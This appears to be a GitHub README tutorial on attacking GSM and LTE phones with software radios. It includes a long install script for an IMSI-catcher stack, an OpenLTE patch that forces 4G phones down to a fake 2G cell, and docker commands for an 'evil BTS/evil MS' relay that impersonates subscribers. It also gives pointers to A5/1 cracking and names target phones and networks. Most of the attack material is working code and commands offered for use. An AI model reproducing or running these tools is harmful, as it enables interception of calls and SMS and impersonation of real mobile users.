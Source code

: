 Works :
=======

.. code-block::

   **Radio-Frequencies Protocols :**
   ---------------------------------

   A protocol is for computing (quoted from Oxford langage):
   "A set of rules governing the exchange or transmission of data between devices."
   <https://www.oed.com/>.

   The goal like it is said is to make travel information from A->B, and (maybe) then B->A etcaetera. This information has a weight and it has to move so : energy is spent, at least F(A->B).
   Another goals came obviously from the first depending on the case of use : spending the less energy possible, have the maximum range, transmit the most data possible, have the best yield, and be the most secure possible (I mean by that, that it can't be understood by a machine or an human on an undesired endpoint in a reasonable time at least at the time of conception and from the projected advances in technology), there are also another important points the latency, and the errors between the message sent and received.  


----

**Radio-Telephony**
-----------------------

----

**Example of SFR:**
-----------------------

**Article 1**

– The French Radiotelephone Company ("Société  Française de Radiotéléphonie") is authorized to use, in the
900 and 1800 MHz bands, the frequencies allocated to it in Article 2 of this decision to establish and operate a radio network open to the public in metropolitan France. For this, it complies with the provisions of the specifications located in appendix 2 of this decision.

**Article 2**

– The GSM channels allocated to the French Radiotelephone Company are, in accordance with the definitions in appendix 1:


* 
  in the 900 MHz band, throughout mainland France: channels 75 to 124;

* 
  in the 900 MHz band, only in very dense areas: channels 63 to 74;

* 
  in the 1800 MHz band, throughout mainland France: channels 512 to 525
  and 647 to 751

For others Operator (GSM)

```{r, echo=FALSE}
library("readxl")
mydata<-read_excel("mytab.xlsx",1)
head(mydata)

.. code-block::

   Free = ? (Free didn't invest much in 2G antenna since 2G will die in 2025 in France the use Orange roaming )

   ---------------
   **2G Attack :**
   ---------------



   An active 2G active should look like this :


   ![diagrone.png.png)
   ![2G Attack Active](diagram_2G_act.png)

   Ths is the flow of a 2G active attack


   ## Hacking 2G (Fooling MS : Mobile Station, the 2G phone)
   The MS doesn't ask authentication from BTS (Base Transceiver Station, the relay antenna). So what to do to intercept ? Be a BTS... and that's all just spoof the public values of the BTS (mcc,mnc exemple 208,15 for FreeMobile 208,01 for Orange, etc) and broadcast a stronger signal and it is done. How the implement a 2G BTS ? there are open sourced implementation on github. 
   https://github.com/osmocom (OpenBSC Osmo-Trx Osmo-Bts... EOL but usefull) or (Network in the Box Updated)
   https://github.com/RangeNetworks/openbts
   https://github.com/vir/yate

   To install it I have scripted it for example for OpenBSC :
   ```bash
   #!/bin/bash
   read -p "Architecture ? amd64, armel, arm64 ?" ARCH
   apt-key adv --recv-keys --keyserver keyserver.ubuntu.com 3B4FE6ACC0B21F32 40976EAF437D05B5
   cp /etc/apt/trusted.gpg /etc/apt/trusted.gpg.d
   apt install gcc-9 g++-9 gcc-10 g++-10 git -y
   echo "deb [arch=$ARCH] http://fr.archive.ubuntu.com/ubuntu/ xenial main restricted universe multiverse" >> /etc/apt/sources.list
   apt update
   apt install gcc-4.9 g++-4.9 gcc-7 g++-7 -y
   sed -i '$ d' /etc/apt/sources.list
   apt update
   apt install -y build-essential libusb-1.0-0-dev libsqlite3-dev libsctp-dev libgmp-dev libx11-6 libx11-dev flex libncurses5 libdbd-sqlite3 libdbi-dev libncurses5-dev libncursesw5 libpcsclite-dev zlib1g-dev libmpfr4 libmpc3 lemon aptitude libtinfo-dev libtool shtool autoconf git-core pkg-config make libmpfr-dev libmpc-dev libtalloc-dev libfftw3-dev libgnutls28-dev libtool-bin libxml2-dev sofia-sip-bin libsofia-sip-ua-dev sofia-sip-bin libncursesw5-dev bison libgmp3-dev alsa-oss
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-4.9 49 --slave /usr/bin/g++ g++ /usr/bin/g++-4.9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-7 70 --slave /usr/bin/g++ g++ /usr/bin/g++-7
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   echo "deb [arch=$ARCH] http://fr.archive.ubuntu.com/ubuntu/ bionic main restricted universe multiverse" >> /etc/apt/sources.list
   apt update
   apt install -y gcc-5 g++-5 libssl1.0-dev
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-5 50 --slave /usr/bin/g++ g++ /usr/bin/g++-5
   sed -i '$ d' /etc/apt/sources.list
   apt update
   update-alternatives --set gcc /usr/bin/gcc-4.9
   exit
   apt remove texinfo
   mkdir -p /opt/IMSI_Catcher
   cd /opt/IMSI_Catcher
   wget http://ftp.gnu.org/gnu/texinfo/texinfo-4.13.tar.gz
   tar xvf texinfo-4.13.tar.gz
   cd texinfo-4.13
   ./configure
   make
   make install
   #git clone https://github.com/bbaranoff/gnu-arm-installer.git gnuarm
   #cd gnuarm
   ##Run the Scripts
   #bash gnu-arm-installer.sh
   #export PATH=$PATH:/root/gnuarm/install/bin
   # Now you have cross-compiler ready you can build osmocom with your firmware
   update-alternatives --set gcc /usr/bin/gcc-9
   cd /opt/IMSI_Catcher
   git clone git://git.osmocom.org/libosmocore.git
   cd libosmocore
   git checkout 1.3.0
   autoreconf -i
   ./configure
   make
   make install
   ldconfig
   cd /opt/IMSI_Catcher
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   autoreconf -i
   ./configure
   make
   make install
   cd /opt/IMSI_Catcher
   update-alternatives --set gcc /usr/bin/gcc-5
   git clone https://github.com/osmocom/osmocom-bb trx
   cd trx
   git checkout jolly/testing
   cd src
   wget https://github.com/bbaranoff/telco_install_sh/raw/main/trx.highram.bin
   sed -i -e  's/#CFLAGS += -DCONFIG_TX_ENABLE/CFLAGS += -DCONFIG_TX_ENABLE/g' target/firmware/Makefile
   make HOST_layer23_CONFARGS=--enable-transceiver nofirmware
   cd /opt/IMSI_Catcher
   update-alternatives --set gcc /usr/bin/gcc-9
   apt install -y libortp-dev
   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/libosmo-abis
   cd /opt/IMSI_Catcher/libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/libosmo-netif
   cd /opt/IMSI_Catcher/libosmo-netif
   git checkout 0.7.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig

   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/openbsc
   cd /opt/IMSI_Catcher/openbsc/openbsc
   autoreconf -fi && ./configure --with-lms && make -j4 && make install && ldconfig

   cd /opt/IMSI_Catcher
   git clone https://github.com/osmocom/osmo-bts
   cd /opt/IMSI_Catcher/osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   cd /opt/IMSI_catcher
   wget https://github.com/bbaranoff/telco_install_sh/raw/main/opencore-amr-0.1.5.tar.gz
   tar xvzf opencore-amr-0.1.5.tar.gz
   cd opencore-amr-0.1.5
   ./configure
   make -j$(nproc)
   make install
   ldconfig
   cd /lib/modules/$(uname -r)/build/certs
   openssl req -new -x509 -newkey rsa:2048 -keyout signing_key.pem -outform DER -out signing_key.x509 -nodes -subj "/CN=Owner/"
   cd /opt/IMSI_Catcher/
   git clone https://github.com/isdn4linux/mISDN
   cd /opt/IMSI_Catcher/mISDN
   rm -Rf /lib/modules/$(uname -r)/kernel/drivers/isdn/hardware/mISDN
   rm -Rf /lib/modules/$(uname -r)/kernel/drivers/isdn/mISDN/
   wget https://raw.githubusercontent.com/bbaranoff/PImpMyPi/main/octvqe.patch
   cp /boot/System.map-$(uname -r) /usr/src/linux-headers-$(uname -r)/System.map
   ln -s /lib/modules/$(uname -r)/build /lib/modules/$(uname -r)/source
   aclocal && automake --add-missing
   ./configure
   patch -p0 < octvqe.patch
   make modules
   cp /opt/IMSI_Catcher/mISDN/standalone/drivers/isdn/mISDN/modules.order /usr/src/linux-headers-$(uname -r)
   cp -rn /usr/lib/modules/$(uname -r)/. /usr/src/linux-headers-$(uname -r)
   make modules_install
   depmod -a

   update-alternatives --set gcc /usr/bin/gcc-7

   cd /opt/IMSI_Catcher
   apt install bison flex -y
   git clone https://github.com/isdn4linux/mISDNuser
   cd /opt/IMSI_Catcher/mISDNuser
   make
   ./configure
   make
   make install
   ldconfig
   cd example
   ./configure
   make
   make install
   ldconfig

   update-alternatives --set gcc /usr/bin/gcc-9
   cd /opt/IMSI_Catcher
   #Asterisk version (11.25.3) :
   wget http://downloads.asterisk.org/pub/telephony/asterisk/releases/asterisk-11.25.3.tar.gz
   tar zxvf asterisk-11.25.3.tar.gz
   cd /opt/IMSI_Catcher/asterisk-11.25.3
   apt install libncurses-dev libxml2-dev
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/tcptls.patch
   patch -p1 < tcptls.patch
   ./configure
   make -j$(nproc)
   make install
   make samples
   make config
   ldconfig
   update-alternatives --set gcc /usr/bin/gcc-5
   cd /opt/IMSI_Catcher
   git clone https://github.com/fairwaves/lcr
   cd lcr
   wget https://raw.githubusercontent.com/bbaranoff/PImpMyPi/main/ast_lcr.patch
   patch -p0 < ast_lcr.patch
   autoreconf -i
   ./configure --with-sip --with-gsm-bs --with-gsm-ms --with-asterisk
   make
   make install
   ldconfig
   cp chan_lcr.so /usr/lib/asterisk/modules/
   apt-get install alsa-oss
   modprobe snd-pcm
   modprobe snd-mixer-oss
   modprobe mISDN_core
   modprobe mISDN_dsp
   rm -rf /usr/local/etc/lcr
   mkdir -p /usr/local/etc/
   git clone https://github.com/bbaranoff/lcr_conf /usr/local/etc/lcr/
   sudo chmod 755 /usr/local/etc/lcr
   sudo chmod 644 /usr/local/etc/lcr/*
   cd /etc/asterisk
   mv sip.conf sip.conf.bak
   mv extensions.conf extensions.conf.bak
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/sip.conf
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/extensions.conf
   mkdir /root/nitb
   cd /root/nitb
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/openbsc.cfg
   wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/nitb.sh
   chmod +x nitb.sh

In https://github.com/bbaranoff/telco_install_sh

Follow the ReadMe and all should be OK.

`IMSI-Catcher 2G <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

Now we have hacked 2G outgoing calls what to do ?

I let as a reader research Yate, OpenBTS, Network In the Box ;)

Now we have hacked 2G outgoing calls what to do ?

Hacking 4G !
------------


.. image:: diagram1_2G_act2.png
   :target: diagram1_2G_act2.png
   :alt: 4G Attack Active

\newpage

.. image:: diagram1_2G_act3.png
   :target: diagram1_2G_act3.png
   :alt: 4G Attack Active


What is the way ? Now the eNodeB (evolved Node BTS the 4G BTS) must authenticate with the phone... What to do then ? Fallback into 2G !
The phone before authenticate send a tracking area update request and the eNodeB respond it with a TAU accept what we will do then ? Reject It ! Say that only 2G is available in the area ;)

.. code-block:: patch

   --- openlte_v00-20-05/liblte/src/liblte_rrc.cc  2016-10-09 22:17:50.000000000 +0200
   +++ openlte_v00-20-05/liblte/src/liblte_rrc.cc  2022-01-25 17:14:32.613323868 +0100
   @@ -11698,13 +11698,28 @@
            liblte_value_2_bits(0, &msg_ptr, 2);

            // Optional indicators
   -        liblte_value_2_bits(0, &msg_ptr, 1);
   +        liblte_value_2_bits(1, &msg_ptr, 1);
            liblte_value_2_bits(0, &msg_ptr, 1);
            liblte_value_2_bits(0, &msg_ptr, 1);

            // Release cause
            liblte_value_2_bits(con_release->release_cause, &msg_ptr, 2);

   +// redirectedcarrierinfo
   +// geran // choice
   +liblte_value_2_bits(1, &msg_ptr, 4);
   +// arfcn no.
   +liblte_value_2_bits(514, &msg_ptr, 10);
   +// dcs1800
   +liblte_value_2_bits(0, &msg_ptr, 1);
   +// Choice of following ARFCN
   +liblte_value_2_bits(0, &msg_ptr, 2);
   +// explicit list
   +liblte_value_2_bits(1, &msg_ptr, 5);
   +// arfcn no.
   +liblte_value_2_bits(514, &msg_ptr, 10);
   +// Note that total bits should be octet aligned,
   +// if not, pad it with zeros.
            // Fill in the number of bits used
            msg->N_bits = msg_ptr - msg->msg;

   --- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2017-07-29 21:58:37.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2022-01-25 16:49:13.365515919 +0100
   @@ -106,6 +106,7 @@
        // Message Parsers
        void parse_attach_complete(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_attach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
   +    void send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
        void parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_authentication_response(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void parse_detach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   @@ -125,6 +126,8 @@
        // Message Senders
        void send_attach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_attach_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   +    void send_tracking_area_update_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   +    void send_tracking_area_update_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_authentication_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_authentication_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
        void send_detach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
   --- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2017-07-29 22:03:51.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2022-01-25 16:49:13.365515919 +0100
   @@ -99,18 +99,21 @@
    typedef enum{
        LTE_FDD_ENB_MME_PROC_IDLE = 0,
        LTE_FDD_ENB_MME_PROC_ATTACH,
   +    LTE_FDD_ENB_MME_PROC_TAU_REQUEST,
        LTE_FDD_ENB_MME_PROC_SERVICE_REQUEST,
        LTE_FDD_ENB_MME_PROC_DETACH,
        LTE_FDD_ENB_MME_PROC_N_ITEMS,
    }LTE_FDD_ENB_MME_PROC_ENUM;
    static const char LTE_fdd_enb_mme_proc_text[LTE_FDD_ENB_MME_PROC_N_ITEMS][100] = {"IDLE",
                                                                                      "ATTACH",
   +                                         "TAU REQUEST",
                                                                                      "SERVICE REQUEST",
                                                                                      "DETACH"};

    typedef enum{
        LTE_FDD_ENB_MME_STATE_IDLE = 0,
        LTE_FDD_ENB_MME_STATE_ID_REQUEST_IMSI,
   +LTE_FDD_ENB_MME_STATE_TAU_REJECT,
        LTE_FDD_ENB_MME_STATE_REJECT,
        LTE_FDD_ENB_MME_STATE_AUTHENTICATE,
        LTE_FDD_ENB_MME_STATE_AUTH_REJECTED,
   @@ -126,7 +129,7 @@
    }LTE_FDD_ENB_MME_STATE_ENUM;
    static const char LTE_fdd_enb_mme_state_text[LTE_FDD_ENB_MME_STATE_N_ITEMS][100] = {"IDLE",
                                                                                        "ID REQUEST IMSI",
   -                                                                                    "REJECT",
   +                                                                       "REJECT",
                                                                                        "AUTHENTICATE",
                                                                                        "AUTH REJECTED",
                                                                                        "ENABLE SECURITY",
   --- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2017-07-29 22:15:50.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2022-01-25 17:07:55.380027792 +0100
   @@ -204,6 +204,10 @@
            case LIBLTE_MME_MSG_TYPE_ATTACH_REQUEST:
                parse_attach_request(msg, &nas_msg->user, &nas_msg->rb);
                break;
   +        case LTE_FDD_ENB_MME_PROC_TAU_REQUEST:
   +            send_tracking_area_update_request(msg, &nas_msg->user, &nas_msg->rb);
   +            break;
   +
            case LIBLTE_MME_MSG_TYPE_AUTHENTICATION_FAILURE:
                parse_authentication_failure(msg, nas_msg->user, nas_msg->rb);
                break;
   @@ -655,6 +659,16 @@
            }
        }
    }
   +void LTE_fdd_enb_mme::send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT  *msg,
   +                                           LTE_fdd_enb_user       **user,
   +                                           LTE_fdd_enb_rb         **rb)
   +{
   +    // Set the procedure
   +
   +(*rb) -> set_mme_procedure(LTE_FDD_ENB_MME_PROC_TAU_REQUEST);
   +(*rb) -> set_mme_state(LTE_FDD_ENB_MME_STATE_TAU_REJECT);}
   +
   +
    void LTE_fdd_enb_mme::parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg,
                                                       LTE_fdd_enb_user       *user,
                                                       LTE_fdd_enb_rb         *rb)
   @@ -864,7 +878,7 @@
                    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_AUTHENTICATE);
                    user->set_id(hss->get_user_id_from_imei(imei_num));
                }else{
   -                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_SECURITY_CAPABILITIES_MISMATCH);
   +                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_IDENTITY_CANNOT_BE_DERIVED_BY_THE_NETWORK);
                    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_REJECT);
                }
            }else{
   @@ -1195,6 +1209,9 @@
            user->prepare_for_deletion();
            send_attach_reject(user, rb);
            break;
   + case LTE_FDD_ENB_MME_STATE_TAU_REJECT:
   +        send_tracking_area_update_reject(user, rb);
   +break;
        case LTE_FDD_ENB_MME_STATE_AUTHENTICATE:
            send_authentication_request(user, rb);
            break;
   @@ -1397,6 +1414,52 @@
                          (LTE_FDD_ENB_MESSAGE_UNION *)&cmd_ready,
                          sizeof(LTE_FDD_ENB_RRC_CMD_READY_MSG_STRUCT));
    }
   +
   +
   +
   +
   +void LTE_fdd_enb_mme::send_tracking_area_update_reject(LTE_fdd_enb_user *user,
   +                                         LTE_fdd_enb_rb   *rb)
   +{
   +    LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT nas_msg_ready;
   +    LIBLTE_MME_TRACKING_AREA_UPDATE_REJECT_MSG_STRUCT      ta_update_rej;
   +    LIBLTE_BYTE_MSG_STRUCT                   msg;
   +     ta_update_rej.emm_cause = user->get_emm_cause();
   +     ta_update_rej.t3446_present = false;
   +     liblte_mme_pack_tracking_area_update_reject_msg(
   +     &ta_update_rej,
   +     LIBLTE_MME_SECURITY_HDR_TYPE_PLAIN_NAS,
   +     user->get_auth_vec()->k_nas_int,
   +     user->get_auth_vec()->nas_count_dl,
   +     LIBLTE_SECURITY_DIRECTION_DOWNLINK,
   +     &msg);
   +    // Queue the NAS message for RRC
   +    rb->queue_rrc_nas_msg(&msg);
   +
   +    // Signal RRC for NAS message
   +    nas_msg_ready.user = user;
   +    nas_msg_ready.rb   = rb;
   +    msgq_to_rrc->send(LTE_FDD_ENB_MESSAGE_TYPE_RRC_NAS_MSG_READY,
   +                      LTE_FDD_ENB_DEST_LAYER_RRC,
   +                      (LTE_FDD_ENB_MESSAGE_UNION *)&nas_msg_ready,
   +                      sizeof(LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT));
   +
   +    send_rrc_command(user, rb, LTE_FDD_ENB_RRC_CMD_RELEASE);
   +// Unpack the message
   +    liblte_mme_unpack_tracking_area_update_reject_msg(&msg, &ta_update_rej);
   +
   +    interface->send_ctrl_info_msg("user fully attached imsi=%s imei=%s",
   +                                  user->get_imsi_str().c_str(),
   +                                  user->get_imei_str().c_str());
   +
   +    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_ATTACHED);
   +}
   +
   +
   +
   +
   +
   +
    void LTE_fdd_enb_mme::send_attach_reject(LTE_fdd_enb_user *user,
                                             LTE_fdd_enb_rb   *rb)
    {
   @@ -1412,7 +1475,7 @@
            imsi_num = user->get_temp_id();
        }

   -    attach_rej.emm_cause           = user->get_emm_cause();
   +    attach_rej.emm_cause           = 2;
        attach_rej.esm_msg_present     = false;
        attach_rej.t3446_value_present = false;
        liblte_mme_pack_attach_reject_msg(&attach_rej, &msg);

   --- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2017-07-29 22:18:34.000000000 +0200
   +++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2022-01-25 17:09:37.116388236 +0100
   @@ -229,7 +229,7 @@
        try
        {
            // Setup the USRP
   -        if(devs[idx-1]["type"] == "x300")
   +        if(devs[idx-1]["type"] == "soapy")
            {
                devs[idx-1]["master_clock_rate"] = "184320000";
                master_clock_set                 = true;
   @@ -252,7 +252,6 @@
                usrp->set_rx_freq((double)liblte_interface_ul_earfcn_to_frequency(ul_earfcn));
                usrp->set_tx_gain(tx_gain);
                usrp->set_rx_gain(rx_gain);
   -
                // Setup the TX and RX streams
                tx_stream  = usrp->get_tx_stream(stream_args);
                rx_stream  = usrp->get_rx_stream(stream_args);
   @@ -822,7 +821,7 @@
            buffer_size = 1024;
        }
        status = bladerf_sync_config(bladerf,
   -                                 BLADERF_MODULE_TX,
   +                                BLADERF_TX_X1,
                                     BLADERF_FORMAT_SC16_Q11_META,
                                     BLADERF_NUM_BUFFERS,
                                     buffer_size,
   @@ -842,7 +841,7 @@

        // Setup sync RX
        status = bladerf_sync_config(bladerf,
   -                                 BLADERF_MODULE_RX,
   +                                BLADERF_RX_X1,
                                     BLADERF_FORMAT_SC16_Q11_META,
                                     BLADERF_NUM_BUFFERS,
                                     buffer_size,
   @@ -974,7 +973,7 @@
        if(radio_params->init_needed)
        {
            // Assume RX_timestamp and TX_timestamp difference is 0
   -        bladerf_get_timestamp(bladerf, BLADERF_MODULE_RX, (uint64_t*)&rx_ts);
   +        bladerf_get_timestamp(bladerf, BLADERF_RX, (uint64_t*)&rx_ts);
            next_tx_ts            = rx_ts + radio_params->samp_rate; // 1 second to make sure everything is setup
            metadata_rx.flags     = 0;
            metadata_rx.timestamp = next_tx_ts - (radio_params->N_samps_per_subfr*2); // Retard RX by 2 subframes

This patch applied on the OpenLTE suite should do the trick.

`Redirection Attack <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

And it does !

Then what to do ?
We know how to be a BTS in front of a MS and force the UE (User Equipement : 4G phone) to fallback into 2G.

Hey ! We gonna pretend that we are the MS in front of the BTS !

Hacking 2G BTS
--------------


.. image:: test3.png
   :target: test3.png
   :alt: Attack Flow


The UE has become an MS again and we know how to be a BTS !

But even in the BTS does not authenticate MS does in front of the BTS. How can we bypass this ? By respecting the attack flow above ;)

I mean the secret is the key Ki stored on the SIM even with physical access you can't crack it thanks to the chip inventor ! But we can fool the authentication process :
The original process is :


* The BTS send a rand,key_sequence to the MS.
* The MS respond SRes = f(ki,rand)
* The MS cipher the communication with Kc= f(Ki,rand,key_seq)

The hacked process is :


* The genuine BTS send a rand,key_seq to the Evil MS.
* The Evil MS send it to our Evil BTS via socket between Evil BTS server and Evil MS client.
* The Evil BTS send the rand,key_seq to genuine MS
* The Genuine MS respond sres -> Evil BTS -> Evil MS -> Genuine BTS
* In the example video Kc is forwarded between Genuine MS-> Evil MS

`Impersonnate PoC <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

With french explanations ;) sorry...

`Impersonalisaion (français) <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

With english explanation (now ;)
`Impersonate (english) <https://www.youtube.com/watch?v=rSGA4oFsFrQ>`_

https://imgur.com/lUjkpGp
First of all there is a bug with brltty so

.. code-block:: bash

   apt remove brltty

on host (not on docker !)
Launch 1st

.. code-block:: bash

   sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/ms-final:hell_yeah

Launch 2nd

.. code-block:: bash

   sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/bts-final:hell_yeah

In this order cause need ip 172.17.0.2 for ms and 172.17.0.3 for bts (socket are made to work with theses addresses)

in bts

.. code-block:: bash

   tmux
   cd /
   service pcscd start
   ./evil-bts.sh

`
then in ms :

.. code-block:: bash

   tmux
   cd /
   bash trx.sh
   ctrl-b c 
   ./evil-ms.sh

set IMSI in OpenBSC (via telnet)
and in /root/.osmocom/bb/mobile.cfg
and set any ki but set one in OpenBSC
need a motorola c1** and a sim reader

What happen next ?

`Crack A5/1 <https://brmlab.cz/project/gsm/deka/attack-implementation>`_

5s to crack it before the Kc ciphered channel timeout has been gone and if it is done we have incomming SMS.

Targets android < 12, telco 2G until 2025 in France

Thank for reading !

Clients-servers architecture :
------------------------------

.. code-block::

   bsc-2rfa 172.17.0.2
   server rand 888 listen on 0.0.0.0
   client sres 666 -> 172.17.0.3

   bb-2rfa 172.17.0.3
   client rand 888 -> 172.17.0.2
   server sres 666 listen on 0.0.0.0
   server kc 777 listen on 0.0.0.0

   osmocom-genuine-ms 172.17.0.2
   client kc 777 -> 172.17.0.3

Headers :
---------

suppress_space.h

.. code-block:: c

   #include <stdio.h>
   char res[100];
   char* spaces(char str [])
   {
   int i = 0;int j = 0;
          while (str[i] != '\0')
          {
             if ((str[i] == ' ') != 1) {
               res[j] = str[i];
               j++;
             }
             i++;
          }
          res[j] = '\0';
   return res;}

hex.h

.. code-block:: c

   /*
    * Read hex strings and output as text.
    *
    * No checking of the characters is done, but the strings must have an even
    * length.
    *
    * $Id: hex2ascii.c,v 1.1 2009/09/19 23:56:49 grog Exp $
    */

   #include <stdio.h>
